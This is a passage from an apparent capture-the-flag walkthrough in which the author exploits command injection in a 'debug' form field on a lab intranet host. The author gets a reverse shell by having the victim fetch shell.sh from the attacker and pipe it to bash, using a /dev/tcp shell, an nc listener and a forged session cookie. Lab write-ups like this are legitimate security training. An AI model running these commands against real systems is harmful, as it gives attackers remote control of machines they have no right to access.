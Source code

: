 When we check the terminal running the Python HTTP server on the attacker machine, we should see a GET request from the victim machine:

![73755c74887d24739bf8b0025f63598a.png](/resources/e5bfaf0fe2914e51a0b6da26b054bfe2.png)

To get a reverse shell, we can make the victim machine download a bash script from our server and pipe it to bash to run the script.

First we create the script and name it "shell.sh":

```
$ echo 'bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"' > shell.sh
```

Host the script using a Python HTTP server:

```
$ python3 -m http.server 8888
```

Start a listener using [nc](https://linux.die.net/man/1/nc) on port 4444:

```
$ nc -nvlp 4444
```

Then make a `curl` request to the victim machine with the `debug` value set to `curl` the script from our server and pipe `|` to `bash`:

```
$ curl 'http://intranet.thm:8080/admin' -X POST -H 'Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.ZS-v5g.1iHgx7AEkXQwbJt-4WWQKAt_CqE' -d 'debug=curl <ATTACKER_IP>:8888/shell.sh | bash'
```

After pressing enter the request should hang and we check the terminal listening on port 4444 for the connection from the victim machine:

![39d7fd19619bec256b712ea079a0a579.png](/resources/42f15763934b4dbeb4e80eeece119602.png)

We can find the user flag in `/home/devops/user.txt`:

```
$ ls -lah
$ cat user.txt
```

![86bdfb8515c8e8a30fec146e09efe875.png](/resources/bf0672c92fef4fcfb43a78c70c8fa596.png)

### \[-] anders\@workshop

We can check the currently running processes of the machine using [ps](https://linux.die.net/man/1/ps) and the options `aux` will print all processes with the PID and command used. Since we only want the processes ran by the user "anders", we pipe `|` the results to [grep](https://linux.die.net/man/1/grep) for `anders`:

```
$ ps aux | grep anders
```
